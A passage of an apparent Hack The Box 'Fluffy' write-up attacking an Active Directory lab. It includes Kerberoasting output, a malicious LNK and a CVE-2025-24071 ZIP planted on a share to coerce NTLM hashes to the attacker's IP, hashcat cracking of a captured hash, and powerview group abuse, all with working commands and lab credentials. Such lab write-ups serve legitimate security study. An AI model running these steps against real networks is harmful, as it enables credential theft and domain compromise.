Lastly, If I check presence of accounts with Service principal names(SPN) I can see there are actually 3 service accounts, this action is called "**Kerberoasting**".

```
└─# netexec ldap dc01.fluffy.htb -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --kerberoast kerberoastable.txt
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
LDAP        10.10.11.69     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.10.11.69     389    DC01             [*] Total of records returned 3
LDAP        10.10.11.69     389    DC01             [*] sAMAccountName: ca_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Cert Publishers,CN=Users,DC=fluffy,DC=htb'], pwdLastSet: 2025-04-17 18:07:50.136701, lastLogon: 2025-05-29 15:04:00.108128
LDAP        10.10.11.69     389    DC01             $krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb\ca_svc*$eb59e4cdfac9b7d4cf3f071b48de0db0$36c147ebb7ac7b84b0748b4c35902eaa1c93edbb68d4cf9812a5bcbd59d2d7e57d3798d587b9543ba9a7519dbbde3471a779d02773144ff4d05335f515259f80e794702a6b84bcdfd4fb86c7d26a737744f9c1789b8ac66bcd35f9559a16f99eb643b83884ba6b1ab9ff543d8d68f10999875dc9849c3f489c3a203babcb535103627d534e1bea27df76b0975f2fe355d8d74e1d9a407b2cf09c7c21aef1685285d433985f6055a43429fdb47b95d0fd7313714aab29e529fc5b41e74cc0c79bdda7dabe07b6af4a48e1294894d75a6760e979bc773e9d0c1a44c2b662490bb87287a8ceb97acf73048cf49ba1ffd5d053b78a4800495d86e56073941646f359465f42d36aa21224d813550d9156363651c636f5ea9674dde354de61e3a70098e659c5da9e7e19a0a9f4b32a8d8e9b1d92b03db1e307f1fce779cdc0d2ef64bfe6c1da3a4cce8bf914bc3a5202962c913993416cde98cb8040634eee4aa410f1606d16eb30b1d399196ae679dcb952b55813679f59ea21384fca9fe20540066ecfdebcbe69cfa5e40ef0f53b27c4e5c7accd55097acedf4031f05a6ee63096962e5af97b0aacd273876cb83d495ab548656cfbd75185ef39d05515f20a00e3a733f723a61318a9277a99e99019e702e339253ad996df7df05fd0c9c16b3003f4f59029f6369667ec5fbe9baf7f5d2ec808085938d4345b678f63231b363850410266f4c460a6cc5b6c295243829500305a9e3b19524a0763b6471f017c82015256222ea9b79696fe62286a21a1b71f1808b0812fe9701b03ff176b07c37b428ba630aa1903486d02a57113a7c238472e3ad3e3d8c5b13457b22901e29b07f652ce8d7eddadab0a72b9b58f311b6d50b44029a204e3d89f5d1403796fb99aed458564808a1308bb67cb2be9070508d0a45b49433e78df207c1ed00fa9efddf857dad2492bbb580bdd007dad4c985d4a5fcd997b6b3b06b1e740f11f695d671a04afbec42e748dbb0889c022fe9340ccc20f5e8f4e331ed6fb639402d48709ba39ad1abbc2d415eda8c96d83031117e665a4f3b0961f2d2b552128b3288af9357520f5581e3dea586e2c32e1fbc1a39b58eb31c68ef45c1a6308b148851130dce5d78f99dc1e8992382d3578ab2d5bd58479ae995574b6f8a3438a903f9c60a0f1eff1165e0ec3fb6fe30d337e505f4790f61fc6207270e17f203c78099e17b92b60c1957435508eda8b5dec547bf706f9b361c83908a24f5955d08cbf84c7f408ac9db7837053405eb7acbb587a618c7b1b196055817ccb7571d664274e424e8791f208b3bbf396804591c6ea7a88ad77f2640e55c412ce9cc4db5c9afdd22c5b312408572b718a6f1957a5cfef0eabadf7824835c7fe8e8faab4a03d59c8b5ca0e6639ec28670b741c0a3949bd0149f4b157906ecf3bc13c2676fe9caf399acf700441e85e47fcc9e9c4ab46be994fb2ef74dbd1bf7818e1d32723246d034e4ab6334679b333ae83efb5e7bd6271558351b91fea070efa8cccd2f82da7c7f0102861c885f13f36
LDAP        10.10.11.69     389    DC01             [*] sAMAccountName: ldap_svc, memberOf: CN=Service Accounts,CN=Users,DC=fluffy,DC=htb, pwdLastSet: 2025-04-17 18:17:00.599545, lastLogon: <never>
LDAP        10.10.11.69     389    DC01             $krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb\ldap_svc*$0d56dd02d42664b143d73885f1715e24$3cfbf0b30411770229b8d204276e95f9fea035fd1c51028d08c4c385e089e096f1701678371dc2f9d8f115cc70a817da97f67226f8f883d2b710d3d836e97966630e56db6d7b58197cee3ce78c4114baadc9f4e6a66b0815dd835330fa2f477c739ca908f923baed81fc6b0bd31c72254914f55206e92fd7b279743d465fca6c6350989e6eeb24a003dd2faa6bf6da4564dc9a508b4757deb0b559a9638a37557eec9c5e4905175cc198fd0d86a036aaaa8a2e13912cee6f7b8fe0913f1249c539ad47935b72307a8057eab6fd9347dfd21724aa6769a0aeac9d5bdcf7ab1eb013f920e1c2bbf68d4f1f849793b8dfa608352b8ff50b6a66824cdbcb3dbd48e89b42a7e4d19cb610351079212f3967366e2b709ba5d214488b7a848e43cb4f319f1d3b6714c4aedcdc25aa1d21c7cef2856b3897fcc2b60c112a0d1ae6bcd39aee43d64d3886d3306fcb11e6a042027fbe77b44b021ac31e72865d86644903ea0c1d98649d7d2f135bf1445bb6c7aa8f4e13b2f81017414571d712a8e4c44af4a223560957bc8c8d762857881956823f314498dedd22a867b52055e841ece8cfcf350b05ba9afef7a6d6d5dd12ca6792dafa3e072d05c7a2a81b72b03b7a53fe5305cf372a75138526e1e2822bf361de5f1e846b31f8be7521b0f3fae44a3e8fa46f2e2c0321d99e1c86ad429016b25f18c2c068ff81e473937c88c9e01df3af5802666c173ed2f392c1d1f0b83d65d70e3cc5cf510ebbb522653703d5f19ec793654c87d624587eca8019bea9a0c842489266bccb553503b56aa6254bcb9cd87a082c975af87f3b78cfb4a69ef8da9e3a8a27a8c9f9b6f1fc9a213f1a6185a8a9db5d3408ff630b00aba43076b443c6ee38a550863dc9ae43fb3964e3ffc89349412225ee366e396ce5f5a640613f7a70388dd2f828f5abb2126ce24cce27394481bd1e0afbbf72f9e8b23652b1c3a435746face6f84e2beab59c1642380b68356b6a74df39bea5e613085e9060d1ccfdda4c8cb162714dd39596a4b2dcd64e03743f965751431cbf1b7d81a0a3fe606f9662a6b5e4e0a8c29e007e3d9ded33df696846146741afce56d7dbe43360c16669ef9060b45164c2375ff638180c7421441bba5dde5c3e357ada19682bec21e4418e4d44cf600f4564af0a53d4331aae57dda7bc55059bf196796ffad3f1cbe553fa671cc2b5de0586f7e7b22550d33889daeed6ae681a5ee2cd8489bcf366d79468a39c0da815aa2af1c3806a53145479bbd4b265e44a62426474abaf5c0addb4c0cde18268caaaa7f71138b32f1314c3bf9c9d61fff80e62f3b8489e40c7e78f237bf8730f5a25343b95186f35364baf68f848f4fc7283b8c14a0d87a5904f39799e9ad497fbb0ccf2ecbe46f26f6292052d9408e90db28512b2158782b60f29327cd23b6bbd7883ed4ec2dd559118b73531f0d41e22cd67a13790c5f110c0318d94d9d21738be4890be2cdcd6d2dff3ef39a934024efd4e621970a4e12ac7be5d75207d9aa49ec949e934b27498e5d8c62966ae7b
LDAP        10.10.11.69     389    DC01             [*] sAMAccountName: winrm_svc, memberOf: ['CN=Service Accounts,CN=Users,DC=fluffy,DC=htb', 'CN=Remote Management Users,CN=Builtin,DC=fluffy,DC=htb'], pwdLastSet: 2025-05-18 02:51:16.786913, lastLogon: 2025-05-29 05:42:18.561107
LDAP        10.10.11.69     389    DC01             $krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb\winrm_svc*$cd70935971471fda7bfe4d3e89801043$7a131fe8cd6c02173b4f9bdf75540c655f29a6da1050b4ec78955107f9c06ed1975c6d7b7d93f5459afe12b9dea0c837fddddeac901af7c2bfca39b08e9bf1ca3e046d7770a4a8dc8a4395a1049a9130814c57480e23125f9fadbce4319ff662cbcee8710489d870302331d5d582f38150ef6305bcfd9efd69ad8fc77707a75400664d9747222acce69d7fcf2aa3747c5e1fa215ae3ed8c540bb558ce1627ac1958c72b907ff9be76e0faa3f75dc7656f5eabba6155215fadab0dc760e8e1ea78934d08b8fe514eaba6864c078acd494db110a5fbeb509440ffc5289b976452195f6753b74f7837572dd9d0bfe88241d895aa0e7d55ba4cfe0733491762cfbfe0e92a93ceae536e2fa533d235750257eb35b141b389a21ad350a4c0fd413b44eeaeca3c3b2fb715b9bf93af56c39969ec77ed34727db3aef4870c4b773a7d55bc05e64a91ecfb5358ea928bc703df7cf1d2698de189fd9f7f3660bc0f4f7684789a1b5b5190c7ab04e4569742f3999c861dec70e6ac9eaec67931f3ae7d7c44b97ab658c202ec6e11923b2e640bd222d649bc37442cc7b14541109db7243caecf134813d3285e81408f5c8e21b784041771fb062e5f56747c1ba9c7db906f5046cda2f75221fb2c73ea1845bd722c2870ec9e9343ff1b997ff7690a7846593a169560350316232326a8737a82cd57ec472135115ba95389302a7ab3232148b2ec135309799fe16e4291b99e8d38e96c95c265ab54dc76e704782ecef6cd8d5f61e97823183be41477321f5143cf29c096f222ed94f914af1bcfabc750516706d47e4dc210ccad684c3cd733c825a16e8af844c70ac025526ee7971e4120c4988e2ae8ba9bb71bb619407d39e9a8ef2598ab0171ca9c7138a9d226996d8a1abd7227692f25065ab7e4bce50750b7e5d1c463b284c14f9a94d6ec0e64f69e6adccedb951542acad4484168157c41af9814a030ef7c53c689dd7c16bbeb7fe6591b127d022bcf85c6c43e21de1d7eee63fba86270fdc214b9ee430933938f474e7ded4fcc833bd737a548e9dda2a690ea03bee0c14b9b36450f3cf287b9b7054eb3925fb674a2bc204794d855128fda5e8be235d801c73c966fbbe0569c7f59738a5d805f17b2d7ba1be24a570ccab4a229d5cc3373bcf5a42a4947db265a02bfceaad187e4e3d6c5b9bf400ad95ec1d729f3da8244829c62fe43e89c801231b0d36e9697a0e983d51cca64a74b28b97573fb535b397cfd20ec5317aa4f9029757b9338db595b37d78e7cf4370223171c005f8cb7163e439e16beb19fb356d99ec32e1d4462973681154ac314c77b832af487ee8d14ca5cd3e704ad4d3087a6041eb591f47e6d978234b4e5e11291e4c08396a4402e4bee575abcf3578257a7715444e70afa81a800f17ecd7e6081997f6de616680a3a6dbe5eb961664e6567e6830fcb4a8d4a809328b7bc4cebe44d34e2168a614b481a2bd420085eb6664915949dc9d5b8a88d90a858fca27372f9a3dcd26b9e58f9e60a589905940f330c9e2d58d2e72abf6cdd

```

Unfortunately none of them are crackable with the common **rockyou.txt** wordlist.



Now I will check that IT share and see what kind of informations are hosted on it. Now that pdf might be interesting while the other stuff might be just bogus data?



The pdf seems only referring to a bunch of CVE that might guide us on how to get to the foothold flag?



I use the **slinky**  option to upload a malicious  **lnk** file on the IT share and hopefully someone will click it?

```
└─# netexec smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M slinky -o SERVER=10.10.14.6 NAME=backup

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE      
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share 
SLINKY      10.10.11.69     445    DC01             [+] Found writable share: IT
SLINKY      10.10.11.69     445    DC01             [+] Created LNK file on the IT share

```

Now I have also tried to generate more file types with **ntlm_theft** like **\*scf** that are being triggered when surfing to the network folder but nothing got back to my responder so far.



Now that everything folder contains a strange exe, i will try to decompress it with a debugger, maybe the code contains useful data... Unfortunately I can't decrypt it.



Now I will check the AD and move on.

# Analysys of the AD

I will try to dump the AD and check what the hell can I find here, maybe that is the way forward.

```
└─# rusthound-ce --domain fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' -c All --zip
---------------------------------------------------
Initializing RustHound-CE at 00:36:34 on 05/30/25
Powered by @g0h4n_0
Special thanks to NH-RED-TEAM
---------------------------------------------------

[2025-05-29T22:36:34Z INFO  rusthound_ce] Verbosity level: Info
[2025-05-29T22:36:34Z INFO  rusthound_ce] Collection method: All
[2025-05-29T22:36:34Z INFO  rusthound_ce::ldap] Connected to FLUFFY.HTB Active Directory!
[2025-05-29T22:36:34Z INFO  rusthound_ce::ldap] Starting data collection...
[2025-05-29T22:36:34Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-29T22:36:35Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=fluffy,DC=htb
[2025-05-29T22:36:35Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-29T22:36:36Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=fluffy,DC=htb
[2025-05-29T22:36:36Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-29T22:36:37Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=fluffy,DC=htb
[2025-05-29T22:36:37Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-29T22:36:37Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=fluffy,DC=htb
[2025-05-29T22:36:37Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-05-29T22:36:37Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=fluffy,DC=htb
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::parser] Starting the LDAP objects parsing...
⢀ Parsing LDAP objects: 1%                                                                                                                                                                                                                     [2025-05-29T22:36:37Z INFO  rusthound_ce::objects::enterpriseca] Found 11 enabled certificate templates
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::parser] Parsing LDAP objects finished!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 10 users parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 62 groups parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 ous parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 3 domains parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 74 containers parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 ntauthstores parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 aiacas parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 rootcas parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 1 enterprisecas parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 33 certtemplates parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] 3 issuancepolicies parsed!
[2025-05-29T22:36:37Z INFO  rusthound_ce::json::maker::common] .//20250530003637_fluffy-htb_rusthound-ce.zip created!

RustHound-CE Enumeration Completed at 00:36:37 on 05/30/25! Happy Graphing!

```

Now that we have a screenshot of the AD schema, we can upload and let the tool **Bloodhound-CE** do the ingestion and graphing.

And we can see that our user possesses no interesting rights so far:



# Back on track

Here I was stuck for a while and going back to the pdf indeed it was the second hint of the CVE:


Here is the CVE explained: https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom

Without further do, I will add that module to my metasploit framework and craft a malicious zip with a ms-library link that uploaded on the share should result in a ntlmspoof?

```
msf6 auxiliary(server/ntlm_hash_leak) > run
[*] Malicious ZIP file created: exploit.zip
[*] Host the file and wait for the victim to extract it.
[*] Ensure you have an SMB capture server running to collect NTLM hashes.
[*] Auxiliary module execution completed
msf6 auxiliary(server/ntlm_hash_leak) > 

```

Now we upload the archive in the root path of the share and we shoud be ready to go!



Indeed now when the victim unzips the archive can we obtain the credentials in Responder.

```
[+] Current Session Variables:
    Responder Machine Name     [WIN-3HYVG98Y29B]
    Responder Domain Name      [33TI.LOCAL]
    Responder DCE-RPC Port     [47240]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:455bec1af5135f33:39A0234AA7FDECA3BB1302C70DD0F1DF:0101000000000000001209B2F7D0DB016784CA40853DC4CB0000000002000800330033005400490001001E00570049004E002D003300480059005600470039003800590032003900420004003400570049004E002D00330048005900560047003900380059003200390042002E0033003300540049002E004C004F00430041004C000300140033003300540049002E004C004F00430041004C000500140033003300540049002E004C004F00430041004C0007000800001209B2F7D0DB0106000400020000000800300030000000000000000100000000200000195FE8D7AD111E910BB6882ECA565C36D1E15A2EEAE6DB2A449DD28F130167DC0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0036000000000000000000
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila
[*] Skipping previously captured hash for FLUFFY\p.agila

```

And we can easily obtain the victims credentials allowing us to move forward:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

P.AGILA::FLUFFY:455bec1af5135f33:39a0234aa7fdeca3bb1302c70dd0f1df:0101000000000000001209b2f7d0db016784ca40853dc4cb0000000002000800330033005400490001001e00570049004e002d003300480059005600470039003800590032003900420004003400570049004e002d00330048005900560047003900380059003200390042002e0033003300540049002e004c004f00430041004c000300140033003300540049002e004c004f00430041004c000500140033003300540049002e004c004f00430041004c0007000800001209b2f7d0db0106000400020000000800300030000000000000000100000000200000195fe8d7ad111e910bb6882eca565c36d1e15a2eeae6db2a449dd28f130167dc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000:prometheusx-303
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:455bec1af5135f33:39a0234aa7fdeca3bb...000000
Time.Started.....: Fri May 30 01:03:01 2025 (0 secs)
Time.Estimated...: Fri May 30 01:03:01 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 20920.8 kH/s (2.58ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4718592/14344385 (32.90%)
Rejected.........: 0/4718592 (0.00%)
Restore.Point....: 3145728/14344385 (21.93%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: tomabogu -> pequeñes
Hardware.Mon.#1..: Temp: 61c Util: 19% Core:1890MHz Mem:8000MHz Bus:8

Started: Fri May 30 01:02:52 2025
Stopped: Fri May 30 01:03:02 2025

```

Unfortunately this user can't WINRM yet but he is part of a custom AD group that allows him to gain full control over the service accounts:




Now in this case we need to perform several steps before being able to "manage" the service accounts, starting from adding our self to the "**Service Account**" groups.

```
└─# powerview fluffy.htb/p.agila:'prometheusx-303'@dc01.fluffy.htb                                                 
Logging directory is set to /root/.powerview/logs/fluffy-p.agila-dc01.fluffy.htb
[2025-05-30 01:14:16] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAPS)-[DC01.fluffy.htb]-[FLUFFY\p.agila]
PV > Add-
Add-ADComputer            Add-CATemplateAcl         Add-DomainComputer        Add-DomainGroup           Add-DomainObjectAcl       Add-GPO                   Add-OU                    
Add-ADUser                Add-DomainCATemplate      Add-DomainDNSRecord       Add-DomainGroupMember     Add-DomainUser            Add-GroupMember           Add-ObjectAcl             
Add-CATemplate            Add-DomainCATemplateAcl   Add-DomainGPO             Add-DomainOU              Add-GPLink                Add-NetService            
(LDAPS)-[DC01.fluffy.htb]-[FLUFFY\p.agila]
PV > Add-DomainGroupMember -Identity "Service Accounts" -Members "P.agila"
[2025-05-30 01:14:54] User P.agila successfully added to Service Accounts
(LDAPS)-[DC01.fluffy.htb]-[FLUFFY\p.agila]
PV > Get-DomainGroupMember -Identity "Service Accounts"                   
GroupDomainName             : Service Accounts
GroupDistinguishedName      : CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
MemberDomain                : ca_svc
MemberName                  : ca_svc
MemberDistinguishedName     : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
MemberSID                   : S-1-5-21-497550768-2797716248-2627064577-1103

GroupDomainName             : Service Accounts
